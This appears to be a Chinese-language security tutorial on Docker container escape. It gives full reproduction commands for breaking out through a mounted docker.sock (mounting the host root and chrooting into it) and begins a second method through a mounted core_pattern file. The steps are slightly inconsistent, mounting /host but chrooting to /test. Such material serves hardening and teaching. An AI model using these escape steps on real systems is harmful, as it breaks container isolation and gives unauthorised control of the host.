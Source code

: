 #### 挂载 Docker Socket

Docker 采用 C/S 架构，我们平常使用的 Docker 命令中，docker 即为 client，Server 端的角色由 docker daemon 扮演，二者之间通信方式有以下 3 种：

*   unix:///var/run/docker.sock(默认
*   tcp://host:port
*   fd://socketfd

Docker Socket 是 Docker 守护进程监听的 Unix 域套接字，用来与守护进程通信——查询信息或下发命令。

逃逸复现：

1.  首先创建一个容器并挂载 / var/run/docker.sock；  
    docker run -itd -v /var/run/docker.sock:/var/run/docker.sock ubuntu
    
2.  在该容器内安装 Docker 命令行客户端；  
    apt-update  
    apt-get install \  
    apt-transport-https \  
    ca-certificates \  
    curl \  
    gnupg-agent \  
    software-properties-common  
    curl -fsSL [https://mirrors.ustc.edu.cn/docker-ce/linux/ubuntu/gpg](https://mirrors.ustc.edu.cn/docker-ce/linux/ubuntu/gpg) | apt-key add -  
    apt-key fingerprint 0EBFCD88  
    add-apt-repository \  
    "deb [arch=amd64] [https://mirrors.ustc.edu.cn/docker-ce/linux/ubuntu/](https://mirrors.ustc.edu.cn/docker-ce/linux/ubuntu/) \  
    $(lsb_release -cs) \  
    stable"  
    apt-get update  
    apt-get install docker-ce docker-ce-cli containerd.io
    
3.  接着使用该客户端通过 Docker Socket 与 Docker 守护进程通信，发送命令创建并运行一个新的容器，将宿主机的根目录挂载到新创建的容器内部；docker run -it -v /:/host ubuntu:18.04 /bin/bash  
    [![](https://xzfile.aliyuncs.com/media/upload/picture/20201122222804-eecbe342-2cce-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201122222804-eecbe342-2cce-1.jpg)
    
4.  在新容器内执行 chroot 将根目录切换到挂载的宿主机根目录。chroot /test  
    [![](https://xzfile.aliyuncs.com/media/upload/picture/20201122222833-ffba6412-2cce-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201122222833-ffba6412-2cce-1.jpg)  
    已成功逃逸到宿主机。  
    [![](https://xzfile.aliyuncs.com/media/upload/picture/20201122222939-27726266-2ccf-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201122222939-27726266-2ccf-1.jpg)
    

#### 挂载宿主机 procfs

docker run -itd -v /proc/sys/kernel/core_pattern:/host/proc/sys/kernel/core_pattern ubuntu (为了区分，挂载到容器的 / host / 目录下

> procfs 是一个伪文件系统，它动态反映着系统内进程及其他组件的状态，其中有许多十分敏感重要的文件。因此，将宿主机的 procfs 挂载到不受控的容器中也是十分危险的，尤其是在该容器内默认启用 root 权限，且没有开启 User Namespace 时

从 2.6.19 内核版本开始，Linux 支持在 / proc/sys/kernel/core_pattern 中使用新语法。如果该文件中的首个字符是管道符 |，那么该行的剩余内容将被当作用户空间程序或脚本解释并执行。
